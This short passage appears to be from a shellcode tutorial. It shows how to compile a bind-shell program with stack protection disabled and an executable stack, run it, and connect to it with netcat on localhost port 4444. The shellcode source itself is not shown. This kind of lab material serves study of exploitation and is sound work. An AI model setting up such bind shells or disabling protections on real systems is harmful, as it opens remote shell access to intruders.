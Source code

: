 Creating the executable
```c
gcc shellcode.c -fno-stack-protector -z execstack -o shellcode_bind
```

Running the shellcode:
```c
./shellcode_bind
```
Connecting to the bind shell:

```c
nc -nv 127.0.0.1 4444
```

![shellcode](/images/shellcode.png)
